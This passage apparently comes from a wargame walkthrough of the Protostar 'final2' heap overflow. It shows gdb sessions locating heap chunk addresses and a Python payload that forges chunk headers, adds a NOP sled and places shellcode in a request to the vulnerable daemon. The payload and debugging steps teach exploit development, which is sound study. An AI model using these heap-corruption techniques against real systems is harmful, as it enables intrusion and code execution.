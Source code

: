 ```lang-bash line-numbers 
0x0804be25 <get_requests+222>:	ret
End of assembler dump.
(gdb) b *get_requests+45
Breakpoint 1 at 0x804bd74: file final2/final2.c, line 43.
(gdb) b *get_requests+201
Breakpoint 2 at 0x804be10: file final2/final2.c, line 55.
```

Now, we will tell gdb to follow the process children and continue to wait for the incoming connection:

```lang-bash line-numbers 
(gdb) set follow-fork-mode child
(gdb) c
Continuing.
```

Now we can send our test payload:

```lang-bash line-numbers 
s.send("FSRD" + "X"*(128-4-1) + "/")
s.send("FSRD" + "ROOT" + "/" + "\xfc\xff\xff\xff" + "\xff\xff\xff\xff" + "XXXX" + "AAAA" + "DDDD" + "\x90"*(128-len(shellcode)-4-4-1-4-4-4-4-4-1) + shellcode)
```

and in gdb we get our new process:

```lang-bash line-numbers 
[New process 1490]
[Switching to process 1490]

Breakpoint 1, 0x0804bd74 in get_requests (fd=4) at final2/final2.c:43
43	final2/final2.c: No such file or directory.
	in final2/final2.c
Current language:  auto
The current source language is "auto; currently c".
```

In our first breakpoint we should be able to get the first chunk address:

```lang-bash line-numbers 
(gdb) i r eax
eax            0x804e008	134537224
```

Lets continue and find out the address of the second chunk:

```lang-bash line-numbers 
(gdb) c
Continuing.

Breakpoint 1, 0x0804bd74 in get_requests (fd=4) at final2/final2.c:43
43	in final2/final2.c
(gdb) i r eax
eax            0x804e090	134537360
```
